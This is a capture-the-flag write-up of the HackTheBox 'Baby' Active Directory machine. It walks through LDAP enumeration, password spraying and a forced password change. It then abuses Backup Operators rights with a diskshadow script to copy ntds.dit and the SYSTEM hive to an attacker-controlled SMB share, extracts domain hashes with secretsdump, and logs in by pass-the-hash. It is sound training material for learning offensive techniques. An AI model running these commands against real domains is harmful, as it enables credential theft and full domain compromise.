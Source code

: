 # [HackTheBox - Baby](https://app.hackthebox.com/machines/Baby)
![c6f135fd23e08499dbcf0bcab8d08564.png](/resources/c6f135fd23e08499dbcf0bcab8d08564.png)
## Table of Contents

- [Abstract](#abstract)
- [Enumeration](#enumeration)
- [Initial Foothold by Changing password of Caroline.Robinson](#initial-foothold-by-changing-password-of-carolinerobinson)
- [Privilege Escalation with Backup Operators group](#privilege-escalation-with-backup-operators-group)

***
## Abstract
Baby is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine.

On the enumeration phase, I found that null session can be used to conduct LDAP search and retrieve a list of user and also the initial password from user description. however there is one user that could not be pull with common user pull method but searching thoughly in the LDAP result will reveal about this user. 

Using password from user description and the hidden user, revealing that we can change password of this user and gain foothold on the machine.

The user that used for footholding is in Backup Operators group which we can backup ntds.dit along with SYSTEM registry hive and dump hashes of all users in the domain using secretdump and then we can use Administrator NTLM hash to login to the machine and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including LDAP and Kerberos which mean this machine is a domain controller. 
```
nmap $IP
```
![26b7efdc620353a2086c3d852c4da222.png](/resources/26b7efdc620353a2086c3d852c4da222.png)

I rescanned again with `-sCV` flag for service enumeration and nmap script engine which reveals domain and hostname that we can add to hosts file but other information are not too special at this point  
![ff14d3ebf97cfed092a71494342ed65e.png](/resources/ff14d3ebf97cfed092a71494342ed65e.png)

After adding domain to hosts file. I started enumerate SMB with NetExec tool and we can see that null session could not be used to retrieve anything from  
![f1d4e9c963c1fed550ace9ded12fa705.png](/resources/f1d4e9c963c1fed550ace9ded12fa705.png)

But after changing protocol to LDAP, we can see that we can pull user lists from the domain and we can also see that we also have a password from user description and it telling us that the initial password of users on this domain is "BabyStart123!" and will likely to be changed after user logon.
```
nxc ldap baby.vl -u '' -p '' --users
```
![2db204965f7ff0c0c07d0b69b3f3c891.png](/resources/2db204965f7ff0c0c07d0b69b3f3c891.png)

I created a userlist with NetExec and then password spraying all users from this user list but no hit which mean all users already changed their password and it seem like I missed something I shouldn't.
```
nxc ldap baby.vl -u '' -p '' --users-export baby_users.txt
nxc smb baby.vl -u baby_users.txt -p 'BabyStart123!'
```
![2ac46c2fab4c297d6944f279690dca56.png](/resources/2ac46c2fab4c297d6944f279690dca56.png)
![81e4fe894bd107521a7ac680c1790ab4.png](/resources/81e4fe894bd107521a7ac680c1790ab4.png)

I used a simple LDAP search to search for something I might have missed and sure enough, there is one user that could not be pulled with my netexec 
```
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" | grep member:
```
![05e5906012ebbd05e0e9677198203c52.png](/resources/05e5906012ebbd05e0e9677198203c52.png)

I tried to find the reason about it and 0xdf gave on on his write-up "That’s because this user doesn’t have any data associated with them" which is really interesting
![985b8b827cb9d296ec8fbddde273a42b.png](/resources/985b8b827cb9d296ec8fbddde273a42b.png)

I dug into the [source code](https://github.com/Pennyw0rth/NetExec/blob/f981215d776d56234d51f95ac2e48f11e149fe31/nxc/protocols/ldap.py#L740) of NetExec when using ldap to parse user list which reveals that NetExec will retrieve only object with `sAMAccountType` = 805306368 (normal user accounts) and "Caroline.Robinson" does not have this value so it didn't make to the list.
![53e6e1e570ed1d906995202caa67ec33.png](/resources/53e6e1e570ed1d906995202caa67ec33.png)

## Initial Foothold by Changing password of Caroline.Robinson

I used the credential found on user description on this user and we can see that we can change password of this user and continue our operation.
```
nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!'
```
![6609dadf07b72af65f34ae4ebb95de21.png](/resources/6609dadf07b72af65f34ae4ebb95de21.png)

I used uv to run latest version of NetExec from Github to use change-password module since NetExec on Kali linux is not the latest version and it does not have this module. (you can use other tool to change password of this user)
```
uv run nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=Password123
```
![0eef906aa335b4004f160937bb3d3f2a.png](/resources/0eef906aa335b4004f160937bb3d3f2a.png)

Now we can use this account to eneumerate further but nothing too special on share here.
![d184b24b122d32a5e684378c0e132b6c.png](/resources/d184b24b122d32a5e684378c0e132b6c.png)

We can use this user to gain a foothold as we can see "Pwn3d!" message from NetExec with WinRM protocol 
```
nxc winrm baby.vl -u 'Caroline.Robinson' -p Password123
```
![2316cf50ce55d71714b1dbc3a8672b7a.png](/resources/2316cf50ce55d71714b1dbc3a8672b7a.png)

Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can gain a foothold and loot user flag located on the desktop of this user.
![495cb95b3a45b41f28535d9e863c6a69.png](/resources/495cb95b3a45b41f28535d9e863c6a69.png)

## Privilege Escalation with Backup Operators group

After gaining foothold, I used whoami command to list information about current user to find a low-hanging fruit and we can see that this user is a member of Backup Operators group which can backup (SeBackupPrivilege) and restore (SeRestorePrivilege) file on this machine.
```
whoami /all
```
![86434904fbd98b5f38ef2b2c6fa52047.png](/resources/86434904fbd98b5f38ef2b2c6fa52047.png)

Since this is the domain controller, I will need to create a backup of ntds.dit which is active directory database and SYSTEM registry hive to dump hashes from both of these files, SYSTEM registry can be retrieve with just 1-2 command but on the other hand. I need to create a shadow copy so I can safely retrieve ntds.dit file.

I will use diskshadow to create shadow copy or C drive but first, I need to create a script to automate this first and here in the script
```
set verbose on   
set metadata C:\Windows\Temp\meta.cab   
set context clientaccessible   
set context persistent   
begin backup   
add volume C: alias wowza   
create   
expose %wowza% E:   
end backup
```

The script will create a shadow copy snapshot of C drive and map to E drive and thats it but since this script was created on my Kali Linux, I need to convert Unix format (Line Feed) to DOS format (carriage return + Line feed) which will make this script able to run on Windows.
```
unix2dos diskshadow.txt
```
![28cabc9ae7f5843c32bd774114fb0717.png](/resources/28cabc9ae7f5843c32bd774114fb0717.png)

Next, I uploaded the script on my winrm session and execute it. no error and now we are ready for the file transfer.
```
upload diskshadow.txt
diskshadow /s diskshadow.txt
```
![ce09650189645b3ef5b09f67aa5bdea4.png](/resources/ce09650189645b3ef5b09f67aa5bdea4.png)
![2c89cee29b28fb4bd2358de6f21a5210.png](/resources/2c89cee29b28fb4bd2358de6f21a5210.png)

Since SYSTEM hive and ntds.dit files are quite large so, I opened my netshare share and copy both files to my Kali Linux. This way is much faster than download function in evil-winrm. first I created a backup of SYSTEM hive with reg save command.
```
reg save hklm\system c:\system
cp system.hive \\10.10.14.24\debug\
```
![1b2ada0a9d181e68400962ee83cc16a9.png](/resources/1b2ada0a9d181e68400962ee83cc16a9.png)
![985f2bfdcd10aa66d3ae23d309d8a909.png](/resources/985f2bfdcd10aa66d3ae23d309d8a909.png)

Next is ntds.dit file and now we are ready to dump all the hashes inside both files.
```
robocopy /b E:\windows\ntds . ntds.dit
cp ntds.dit \\10.10.14.24\debug\
```
![d512b652ff079e0c93a572daca4eb8c3.png](/resources/d512b652ff079e0c93a572daca4eb8c3.png)

The tool that can be used to dump hashes is secretsdump from impacket and now we can get NTLM hash of Administrator account and gain access to target system via pass-the-hash technique.
```
impacket-secretsdump -ntds ntds.dit -system system.hive local
```
![6fc8fe601dbfd6152a5c6f96fc7463d1.png](/resources/6fc8fe601dbfd6152a5c6f96fc7463d1.png)

Login as Administrator and loot the flag, Now we are done :D
```
evil-winrm -i baby.vl -u 'Administrator' -H ee4457ae59f1e3fbd764e33d9cef123d
```
![772a9088ed368afeb8025d4b47c76b7d.png](/resources/772a9088ed368afeb8025d4b47c76b7d.png)

https://labs.hackthebox.com/achievement/machine/1438364/739
***